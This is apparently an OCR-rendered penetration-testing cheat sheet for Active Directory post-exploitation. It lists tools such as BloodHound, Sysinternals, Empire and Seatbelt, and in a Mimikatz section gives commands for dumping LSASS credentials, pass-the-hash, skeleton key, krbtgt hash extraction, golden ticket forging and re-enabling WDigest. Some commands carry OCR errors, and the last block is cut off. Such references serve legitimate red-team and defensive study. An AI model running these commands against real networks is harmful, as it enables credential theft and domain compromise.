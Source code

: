   - Dumping Active Directory Domain Info – with PowerUpSQL!: <https://blog.netspi.com/dumping-active-directory-domain-info-with-powerupsql/>
- Bloodhound - uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify: <https://github.com/BloodHoundAD/BloodHound>
  - BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment: [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
  - Find where domain admins are logged in:
    ```
    python http://bloodhound.py  -u <USERNAME> -p <PASSWORD> -d <DOMAIN_NAME> -dc <DOMAIN_CONTROLLER_HOSTNAME>
    neo4j start
    bloodhound
    ```
- LDIFDE: Import/Export information from AD

- Sys Internals: <https://technet.microsoft.com/en-in/sysinternals/bb545021.aspx>
  - `PsExec` - Execute processes on remote machine
  - `PsFile` - Displays list of files opened remotely.
  - `PsGetSid` - Translate SID to display name and vice versa
  - `PsKill` - Kill processes on local or remote machine
  - `PsInfo` - Displays installation, install date, kernel build, physical memory, processors type and number, etc.
  - `PsList` - Displays process, CPU, Memory, thread statistics
  - `PsLoggedOn` - Displays local and remote logged users
  - `PsLogList` - View Event logs
- localrecon.cmd: Utility to generate a summary of a Windows system: <https://github.com/bitsadmin/miscellaneous/blob/master/localrecon.cmd>
- Empire: post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent: <https://github.com/EmpireProject/Empire>
- Seatbelt: C# project that performs a number of security oriented host-survey "safety checks": <https://github.com/GhostPack/Seatbelt>
- 
#### Mimikatz

- Mimikatz 2.0 - Golden Ticket Walkthrough: <https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html>
- General commands:
    ```
    privilege::debug

    sekurlsa::logonPasswords full
    sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

    misc::skeleton

    ipconfig /all
    whoami /user
    lsadump::lsa /inject /name:krbtgt
    kerbros::golden /domain:[Domain] /sid:[SID] /rc4:[NTLM Hash] /user:[Username To Create] /id:500 /ptt
    pushd \\WINSERVER01\c$
    cd WINDOWS\NTDS
    ```
- If WDigest is disabled: 
    ```
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    ```
- Export memory dump and use it in Mimikatz:
    ```
    Get-Process lsass | Out-Minidump
    sekurlsa::minidump lsass_592.dmp